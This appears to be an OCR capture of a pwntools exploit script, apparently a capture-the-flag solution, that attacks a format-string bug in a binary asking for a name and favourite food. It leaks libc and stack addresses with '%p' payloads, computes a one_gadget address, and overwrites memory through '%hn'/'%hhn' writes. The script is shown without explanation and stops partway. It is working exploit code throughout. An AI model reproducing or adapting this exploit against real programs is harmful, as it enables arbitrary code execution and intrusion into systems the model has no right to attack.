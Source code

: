 ```
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))

leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))

l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))

context.terminal = ['gnome-terminal','-x','sh','-c']

  

#gdb.attach(p)

  

ru('Give me your name:')

sl(b'a')

ru('favourite food: ')

sl('%9$p-%11$p')

ru("0x")

libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240

leak('libc_base:',libc_base)

ogs=[0x4527a,0xf03a4,0xf1247]

og=libc_base+ogs[2]

leak('og ',og)

leak('(og>>16)&0xff',((og>>16)&0xff))

#leak('og')

  

ru("0x")

stack=int(r(12),16)

stack1=stack-224

leak('stack1 ',stack1)

leak('stack1&0xffff ',stack1&0xffff)

leak('(stack1+2)&0xffff',(stack1+2)&0xffff)

i_addr=stack-(256)+0xc

leak('i_addr',i_addr)

  

sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str(6)+'c%37$hhn')
```